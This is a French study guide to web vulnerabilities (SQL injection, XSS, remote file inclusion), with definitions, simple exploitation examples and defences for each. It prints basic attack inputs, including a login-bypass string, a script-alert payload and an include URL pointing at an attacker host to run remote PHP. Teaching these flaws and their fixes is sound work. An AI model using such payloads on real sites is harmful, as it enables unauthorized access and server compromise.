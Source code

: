 ```**********************************************************************************************************************************************```
```**********************************************************************************************************************************************```
```**********************************************************************************************************************************************```

# Low - Injection SQL (SQLi)
## Définition:
L'injection SQL permet à un attaquant d'insérer (ou "injecter") du code SQL malveillant dans une requête SQL. Cela peut permettre à l'attaquant de manipuler des bases de données pour exfiltrer des informations sensibles, modifier des données ou même prendre le contrôle de la base de données.
## Comment l'utiliser:
Si tu as une page qui prend des entrées utilisateur, comme un champ de connexion, tu peux essayer d'injecter une commande SQL malveillante. Par exemple, dans un champ de "username", tu peux essayer: ```' OR 1=1 --```
Cette chaîne contourne la vérification du mot de passe en rendant la condition toujours vraie.
## Solution :
- Utiliser des requêtes préparées avec des paramètres liés.
- Valider et filtrer toutes les entrées des utilisateurs.
- Utiliser des comptes avec des privilèges limités sur la base de données.

# Medium - Cross-Site Scripting (XSS)
## Définition:
Le Cross-Site Scripting (XSS) permet à un attaquant d'injecter du code JavaScript malveillant dans une page web, qui sera ensuite exécuté dans le navigateur des utilisateurs lorsqu'ils consultent la page.
## Exploitation:
Par exemple, un attaquant peut injecter ce code dans un champ de commentaire vulnérable sur un site web: ```<script>alert('XSS')</script>```
Cela affichera une alerte dans le navigateur de la victime.
## Solution :
- Encoder toutes les sorties des données utilisateurs (par exemple, utiliser htmlspecialchars() en PHP).
- Mettre en place une politique de sécurité du contenu (CSP) pour restreindre les scripts non autorisés.
- Valider et assainir les entrées utilisateur, notamment les champs de formulaire.

# High - Remote File Inclusion (RFI)
## Définition:
L'attaque Remote File Inclusion (RFI) permet à un attaquant d'inclure un fichier malveillant depuis une URL externe. Si un site permet l'inclusion de fichiers sans validation, un attaquant peut injecter un fichier PHP malveillant, entraînant souvent l'exécution de code sur le serveur.
## Exploitation:
Par exemple, si un site web utilise un paramètre comme include.php?file=page.txt, un attaquant pourrait injecter : ```http://attacker.com/malicious_file.php```
Cela chargerait un fichier PHP malveillant depuis un serveur externe.
## Solution :
- Désactiver l'option allow_url_include dans PHP.
- N'accepter que des fichiers locaux pour l'inclusion et les valider.
- Utiliser une liste blanche de fichiers autorisés à inclure.

```****************************************************************************************************************************************************```
```****************************************************************************************************************************************************```
```****************************************************************************************************************************************************```

# Comment exploiter ces vulnérabilités
## SQL Injection (SQLi)
1) Exploitation simple :
- Injecter une chaîne comme ' OR 1=1 -- dans un champ de formulaire comme username.
- Cela modifie la requête SQL pour que la condition 1=1 soit toujours vraie, contournant la vérification du mot de passe.
2) Exemple :
- Sur une page de connexion, l'attaquant entre :
    - username: ' OR 1=1 --
    - password: (vide)
- La requête SQL devient SELECT * FROM users WHERE username='' OR 1=1 --' AND password='', ce qui renvoie toujours un résultat.

## XSS (Cross-Site Scripting)
1) Exploitation simple :
- Injecter un script JavaScript malveillant dans un champ vulnérable (comme un commentaire), qui sera ensuite exécuté dans le navigateur de l'utilisateur.
2) Exemple :
- Dans un champ de commentaire, l'attaquant entre: ```<script>alert('XSS')</script>```
- Lorsque quelqu'un consulte la page, ce script est exécuté dans son navigateur, affichant l'alerte.

## RFI (Remote File Inclusion)
1) Exploitation simple :
- Si le site inclut des fichiers via un paramètre comme include.php?file=page.txt, l'attaquant peut soumettre une URL externe pointant vers un fichier PHP malveillant.
2) Exemple :
- Si le site permet l'inclusion de fichiers, l'attaquant pourrait soumettre : ```http://attacker.com/malicious_file.php```
- Cela chargerait un fichier PHP malveillant et l'exécuterait sur le serveur.

```****************************************************************************************************************************************************```
```****************************************************************************************************************************************************```
```****************************************************************************************************************************************************```

# Comment résoudre ces vulnérabilités
## SQL Injection (SQLi)
1) Utiliser des requêtes préparées et des paramètres liés pour éviter l'injection.
2) Valider et filtrer toutes les entrées des utilisateurs.
3) Donner des privilèges limités aux comptes de la base de données (par exemple, en lecture seule pour les requêtes publiques).

## XSS (Cross-Site Scripting)
1) Encoder toutes les sorties pour éviter que le JavaScript soit exécuté (par exemple, avec htmlspecialchars()).
2) Mettre en place une Content Security Policy (CSP) pour limiter les sources de scripts autorisés.
3) Valider et filtrer toutes les entrées utilisateur dans les formulaires et autres champs.

## RFI (Remote File Inclusion)
1) Désactiver allow_url_include dans PHP.
2) Valider soigneusement les fichiers acceptés pour inclusion (n'accepter que des fichiers locaux).
3) Utiliser une liste blanche des fichiers autorisés à être inclus.

```****************************************************************************************************************************************************```
```****************************************************************************************************************************************************```
```****************************************************************************************************************************************************```